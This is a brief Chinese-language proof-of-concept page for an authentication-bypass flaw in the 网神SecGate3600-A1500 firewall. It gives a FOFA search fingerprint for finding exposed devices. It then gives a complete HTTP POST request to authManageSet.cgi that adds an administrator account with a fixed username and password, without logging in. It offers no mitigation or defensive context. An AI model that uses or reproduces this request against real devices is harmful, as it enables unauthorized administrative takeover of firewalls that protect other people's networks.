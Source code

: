 # 网神SecGate3600未授权添加用户漏洞

网神SecGate3600-A1500会话鉴权逻辑存在问题导致，登录绕过获取管理员权限。

## fofa

```yaml
"sec_gate_image/button_normal.gif"
```

## poc

```java
POST /cgi-bin/authUser/authManageSet.cgi HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: application/xml, text/xml, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 93
Connection: close

type=saveAdmin&id=2&userName=audit&pwd=audit@1234&net=0.0.0.0&mask=0.0.0.0&port=ANY&allow=Y
```

![image-20240803125438422](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408031254480.png)

使用添加的用户登录

![image-20240803125457727](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408031254792.png)